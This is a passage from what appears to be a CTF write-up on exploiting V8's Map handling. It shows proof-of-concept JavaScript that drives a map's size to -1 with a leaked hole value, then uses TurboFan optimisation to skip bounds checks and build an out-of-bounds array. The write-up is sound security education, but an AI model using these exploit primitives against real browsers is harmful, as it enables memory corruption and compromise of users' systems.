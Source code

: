 ### POC:

```js
let hole = Set.prototype.hole();
let set = new Set();
var map = new Map();

map.set(1, 0x69);
map.set(hole, 0x69);
map.delete(hole);
map.delete(hole);
map.delete(1);
```

If you read the other blog you would have a good idea that the `map.size` now will be equal to `-1`. 

### Exploitation:

I was stuck at this stage for the rest of the CTF, then moved on to solve `compresse` which was a pretty good mix of both heap & stack. But yes, the idea here is that `map.size` will always be greater than equal to `0`. Well this is true for most of the cases expect here. where our map.size is `-1`. 

We can use turbofan to optimize our code. This is mainly done to remove bounds checking on Arrays, which would lead to creation of `OOB` array. Lets see how to do this.

### Removal of Bound Check:
```js
const x = itof(0x1000000000050001n);
let obj_list;

function bob(){
    let a = [0.1, 0.2, 0.3, 0.4];
    let b = new Array(1.1, 2.2);
    let ret = a[-map.size * 0x8];

    a[-map.size * 0x8] = x;
    if (ret === undefined)
        return false
    else {
        return b;
    }
}   

let OOB;
while(true){
    OOB = bob();
    if(OOB !== false){
        break;
    }
}
```
